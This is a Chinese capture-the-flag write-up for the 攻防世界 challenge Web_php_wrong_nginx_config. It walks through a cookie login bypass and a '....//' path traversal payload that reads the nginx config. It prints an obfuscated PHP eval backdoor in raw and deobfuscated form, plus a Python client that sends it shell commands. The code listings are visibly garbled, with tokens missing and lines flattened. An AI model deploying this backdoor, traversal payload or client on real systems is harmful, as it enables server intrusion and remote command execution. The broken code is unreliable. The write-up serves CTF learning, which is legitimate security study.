

题目描述
无
题目解题
访问首页是一个登录框，弱口令试了没什么效果，直接扫一下目录看看

发现robots.txt，发现两个php文件，访问看看
提示配置文件有问题，估计得想办法读取一下。随后访问hack.php，但必须要登录才可以，那回到登录框再看一下，结果还是没啥思路，于是看了一眼wp发现可以访问hack.php，只不过我当时眼瞎没看到。
我们url拼接hack.php，然后bp抓包
如上图看到cookie值很可疑，猜测修改一下就可以的登录，尝试一下
页面成功有回显，然后就没有然后了，看了wp发现似乎要一个一个链接的去测试
如下图，这里我是抓包后修改cookie后放包（先放一下），随后看wp的意思他是直接点击管理中心抓包的，但实战的话肯定不清楚的，因此我们得一个个去点击测试抓包。
（不过看了wp发现这里可以查看源码或者是F12看查看器，观察哪个连接有跳转功能来针对性的抓包）
这里就直接抓了，抓了之后还是放包看有什么信息（记得修改cookie）
放了两次后发现如下图，出现可以url参数，这里可以试着读取一下之前的配置文件
读取试了试没效果（此处并没有想到被过滤了）看了wp发现…/被过滤，但我真不知道咋测试出来的。。。估计是一个个试的吧
1 ?file=index.php&ext=和?file=index&ext=php内容读取一样
payload
1 ?file=....//....//....//....///etc/nginx/sites-enabled/site.conf&ext=
成功读取，这里咱也不知道如何一键格式化代码，就cv了，接下来就只能傻傻的看wp了┭┮﹏┭┮
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 server {8080 ; 8080 ; var /www/html;if ($time_iso8601 ~ "^(\d{4})-(\d{2})-(\d{2})" ) {$year $1 ;$month $2 ;$day $3 ;$http_x_forwarded_for_filt $http_x_forwarded_for ;if ($http_x_forwarded_for_filt ~ ([0 -9 ]+\.[0 -9 ]+\.[0 -9 ]+\.)[0 -9 ]+) {$http_x_forwarded_for_filt $1 ???;var /log/nginx/$hostname -access-$year -$month -$day .log openshift_log;var /log/nginx/error.log info;$uri $uri / /index.php?q=$uri &$args ;500 502 503 504 /50 x.html;50 x.html {$uri $uri / /index.php?q=$uri &$args ;var /run/php/php5.6 -fpm.sock;$document _root$fastcgi_script_name ;$fastcgi_script_name ;include fastcgi_params;$http_x_forwarded_for ;include /var /www/nginx[.]conf;
nginx配置
1 2 3 4 5 6 location /web-img {
访问/web-img…/目录
进入网站目录发现有备份文件，下载一下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <?php $U ='_/|U","/-/|U"),ar|Uray|U("/|U","+"),$ss(|U$s[$i]|U,0,$e)|U)),$k))|U|U);$o|U|U=o|Ub_get_|Ucontents(|U);|Uob_end_cle' ;$q ='s[|U$i]="";$p=|U$ss($p,3);}|U|Uif(array_k|Uey_|Uexis|Uts($|Ui,$s)){$s[$i].=|U$p|U;|U$e=|Ustrpos($s[$i],$f);|Ui' ;$M ='l="strtolower|U";$i=$m|U[1|U][0].$m[1]|U[1];$|U|Uh=$sl($ss(|Umd5($i|U.$kh),|U0,3|U));$f=$s|Ul($ss(|Umd5($i.$' ;$z ='r=@$r[|U"HTTP_R|UEFERER|U"];$r|U|Ua=@$r["HTTP_A|U|UCCEPT_LAN|UGUAGE|U"];if|U($r|Ur&|U&$ra){$u=parse_|Uurl($r' ;$k ='?:;q=0.([\\|Ud]))?,|U?/",$ra,$m)|U;if($|Uq&&$m){|U|U|U@session_start()|U|U;$s=&$_SESSIO|UN;$ss="|Usubst|Ur";|U|U$s' ;$o ='|U$l;|U){for|U($j=0;($j|U<$c&&|U|U$i|U<$|Ul);$j++,$i++){$o.=$t{$i}|U^$k|U{$j};}}|Ureturn $|Uo;}$r=$|U_SERV|UE|UR;$r' ;$N ='|Uf($e){$k=$k|Uh.$kf|U;ob_sta|Urt();|U@eva|Ul(@g|Uzuncom|Upress(@x(@|Ubas|U|Ue64_decode(preg|U_repla|Uce(|Uarray("/' ;$C ='an();$d=b|Uase64_encode(|Ux|U(gzcomp|U|Uress($o),$k))|U;prin|Ut("|U<$k>$d</$k>"|U);@ses|U|Usion_des|Utroy();}}}}' ;$j ='$k|Uh="|U|U42f7";$kf="e9ac";fun|Uction|U |Ux($t,$k){$c|U=|Ustrlen($k);$l=s|Utrl|Ue|Un($t);$o=|U"";fo|Ur($i=0;$i<' ;$R =str_replace ('rO' ,'' ,'rOcreatrOe_rOrOfurOncrOtion' );$J ='kf|U),|U0,3));$p="|U";for(|U|U$|Uz=1;$z<cou|Unt|U($m[1]);|U$z++)$p.=|U$q[$m[2][$z|U]|U];if(strpos(|U$|U|Up,$h)|U===0){$' ;$x ='r)|U;pa|Urse|U_str($u["qu|U|Uery"],$q);$|U|Uq=array_values(|U$q);pre|Ug|U_match_al|Ul("/([\\|U|Uw])[|U\\w-]+|U(' ;$f =str_replace ('|U' ,'' ,$j .$o .$z .$x .$k .$M .$J .$q .$N .$U .$C );$g =create_function ('' ,$f );$g ();?>
1 2 3 4 5 6 7 8 9 create_function()函数
参考：PHP代码审计之create_function()函数
这里大佬说感觉是PHP混淆，随后他直接输出了f变量看到了代码部分
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 $kh = "42f7" ;$kf = "e9ac" ;function x ($t , $k $c = strlen ($k );$l = strlen ($t );$o = "" ;for ($i = 0 ; $i < $l ;) {for ($j = 0 ;$j < $c && $i < $l ); $j ++, $i ++) {$o . = $t {$i $k {$j return $o ;$r = $_SERVER ;$rr = @$r ["HTTP_REFERER" ];$ra = @$r ["HTTP_ACCEPT_LANGUAGE" ];if ($rr && $ra ) {$u = parse_url ($rr );parse_str ($u ["query" ], $q );$q = array_values ($q );preg_match_all ("/([\w])[\w-]+(?:;q=0.([\d]))?,?/" , $ra , $m );if ($q && $m ) {@session_start ();$s = & $_SESSION ;$ss = "substr" ;$sl = "strtolower" ;$i = $m [1 ][0 ].$m [1 ][1 ];$h = $sl ($ss (md5 ($i .$kh ), 0 , 3 ));$f = $sl ($ss (md5 ($i .$kf ), 0 , 3 ));$p = "" ;for ($z = 1 ; $z < count ($m [1 ]); $z ++) $p . = $q [$m [2 ][$z ]];if (strpos ($p , $h ) === 0 ) {$s [$i ] = "" ;$p = $ss ($p , 3 );if (array_key_exists ($i , $s )) {$s [$i ]. = $p ;$e = strpos ($s [$i ], $f );if ($e ) {$k = $kh .$kf ;ob_start ();@eval (@gzuncompress (@x (@base64_decode (preg_replace (array ("/_/" , "/-/" ), array ("/" , "+" ), $ss ($s [$i ], 0 , $e ))), $k )));$o = ob_get_contents ();ob_end_clean ();$d = base64_encode (x (gzcompress ($o ), $k ));print ("<$k >$d </$k >" );@session_destroy ();
到这里更一脸懵逼了，看wp说
这是一个后门页面,在网上找到了相关的利用教程:一个PHP混淆后门的分析
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 from random import randint,choicefrom hashlib import md5import urllibimport stringimport zlibimport base64import requestsimport redef choicePart (seq,amount ):len (seq)if length == 0 or length < amount:print 'Error Input' return None 0 while count < amount:0 ,length-1 )if not i in indexes:1 if count == amount:return resultdef randBytesFlow (amount ):'' for i in xrange(amount):chr (randint(0 ,255 ))return resultdef randAlpha (amount ):'' for i in xrange(amount):return resultdef loopXor (text,key ):'' len (key)len (text)0 while iTxt < lenTxt:0 while iTxt<lenTxt and iKey<lenKey:chr (ord (key[iKey]) ^ ord (text[iTxt]))1 1 return resultdef debugPrint (msg ):if debugging:print msgFalse "42f7" "e9ac" 'http://61.147.171.105:63612/hack.php' 'zh-CN' 'zh-TW;q=0.%d' ,'zh-HK;q=0.%d' ,'en-US;q=0.%d' ,'en;q=0.%d' ]None 3 )sorted (choicePart(range (1 ,10 ),3 ), reverse=True )for i in xrange(3 ):',' .join(acceptLang)0 ][0 ] + acceptLang[1 ][0 ] 0 :3 ]0 :3 ] + randAlpha(randint(3 ,8 ))'$i is %s' % (init2Char))'md5 head: %s' % (md5head,))'md5 tail: %s' % (md5tail,))'phpshell > ' )while cmd != '' :for i in xrange(max (indexes)+1 +randint(0 ,2 )):3 ,6 ))3 ,12 )))'Before insert payload:' )2 ,len (payload)-3 )0 :cutIndex], payload[cutIndex:], md5tail)0 for i in indexes:0 ],payloadPieces[iPiece])1 '?' + urllib.urlencode(query)'After insert payload, referer is:' )'Accept-Language' :acceptLangStr,'Referer' :referer},proxies=proxies)compile (r'<%s>(.*)</%s>' % (xorKey,xorKey))if len (output) == 0 :print 'Error, no backdoor response' 'phpshell > ' )continue 0 ]'base64' )print output'phpshell > ' )
拿到flag
随后本想着学习一波PHP混淆，结果真实开了眼，根本看不懂。。。
下去得思考一下如何学了
参考文章
攻防世界-WEB进阶区-Web_php_wrong_nginx_config
[wp] 攻防世界 Web_php_wrong_nginx_config
【愚公系列】2023年06月 攻防世界-Web（Web_php_wrong_nginx_config）
[Weevely：一个 PHP 混淆后门的代码分析]
攻防世界 web高手进阶区 7分题 Web_php_wrong_nginx_config